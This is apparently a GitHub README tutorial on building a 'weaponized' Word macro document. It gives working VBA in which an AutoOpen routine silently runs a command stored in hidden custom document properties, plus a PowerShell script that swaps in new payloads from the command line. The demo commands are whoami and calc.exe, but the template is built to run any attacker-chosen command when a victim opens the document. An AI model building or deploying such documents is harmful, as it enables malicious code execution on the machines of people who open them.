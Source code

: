 # Office Macros With Hidden Functionalities
## Summary
Inspired by the recent Offensive Security post https://www.offensive-security.com/offsec/macro-weaponization/ I thought it would be beneficial to make some minor modifications to this so that it could be updated from the command line using PowerShell. The ultimate goal was to be able to quickly edit a word document and modify payloads from the command line. Although creating the document template is still a manual procedure, changing the payload can be made easier by using PowerShell. 

## 1. Create Document Template
1. Create a new word document. 
![Create New Document](images/1.png)

2. Select `View`, `Macros`, `View Macros`.
![View Macros](images/2.png)

3. Enter a name for the macro in the `Macro name:` field. Ensure that the `Macros in:` field is set to be the current document (Document1) likely if the document is new and hasn't yet been saved. Select `Create`. 
![Create Macro](images/3.png)

4. Copy & Paste the code below into the codebox and click on the `Save` icon.
![Create Macro](images/4.png)
```vb
Sub AutoOpen()
    chapel
End Sub
Sub chapel()
    Dim strProgramName As String
    Dim strArgument As String
    Set doc = ActiveDocument
    strProgramName = doc.CustomDocumentProperties("cmd").Value
    strArgument = doc.CustomDocumentProperties("argument").Value
    Call Shell("""" & strProgramName & """ """ & strArgument & """", vbHideFocus)
End Sub
```

5. When prompted to save the document, Set the location (In this example I will use the location `C:\temp\cmd_exec.docx`). Also set the `Save as type:` field to be `Word Macro-Enabled Document (*.docm)`. 
![Create Macro](images/10.png)

6. Click the `X` to close the Macro dialog box. 
![Create Macro](images/11.png)

7. Create Custom properties. Go to `File`, `Info`, `Properties`, `Advanced Properties`.
![Create Macro](images/5.png)

8. Select the `Custom` tab. In the `name` field enter `cmd`, in the `value` field enter `cmd.exe` then click `Add`
![Create Macro](images/6.png)
![Create Macro](images/7.png)

8. In the `name` field enter `argument`, in the `value` field enter `/c whoami` then click `Add`
![Create Macro](images/8.png)

9. Once both values have been added, Click OK to close the `Properties` dialog box. 
![Create Macro](images/9.png)

9. Save the document, for this example I have saved it to `C:\temp\cmd_exec.docm`. 
![Create Macro](images/12.png)


## 2. Modify the payload with PowerShell

```powershell
# Initiate Word
$Word = New-Object -ComObject Word.Application
# Set Word to be visible
$Word.Visible = $true
# Open the template document (Modify the directory if different)
$Document = $Word.Documents.Open('C:\temp\cmd_exec.docm')

$binding = "System.Reflection.BindingFlags" -as [type];        
$CustomProperties = [System.__ComObject]$Document.CustomDocumentProperties
            [Array]$propertyName = "cmd"
            [Array]$propertyValue = "calc.exe"
            #Get property value
            $myProperty = [System.__ComObject].InvokeMember("Item", $binding::GetProperty, $null, $customProperties, $propertyName)
            $myPropertyValue  = [System.__ComObject].InvokeMember("value",$binding::GetProperty,$null,$myProperty,$null);
            #Set property value
            [System.__ComObject].InvokeMember("Value",$binding::SetProperty,$null,$myProperty,$propertyValue)
```